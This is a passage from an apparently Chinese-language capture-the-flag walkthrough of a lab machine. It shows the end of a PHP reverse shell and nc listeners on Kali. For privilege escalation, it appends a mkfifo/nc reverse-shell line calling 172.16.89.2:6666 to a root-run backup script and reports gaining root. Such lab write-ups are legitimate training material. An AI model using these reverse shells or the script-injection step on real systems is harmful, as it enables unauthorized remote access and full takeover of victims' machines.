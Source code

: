 ```
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?>
```

![img](/assets/img/15.png)

kali 监听

```
nc -lvp 4444
```

点击save，成功回弹

![img](/assets/img/16.png)

## 0x04 提权

kali 监听

```
nc -lvp 6666
```

写入 payload

```
cd /opt/scripts/
echo "mkfifo /tmp/bqro; nc 172.16.89.2 6666 0</tmp/bqro | /bin/sh >/tmp/bqro 2>&1; rm /tmp/bqro" >> /opt/scripts/backups.sh
```

等待回弹，获得root权限，/root/下拿到flag

![image-20211005223842239](/assets/img/image-20211005223842239.png)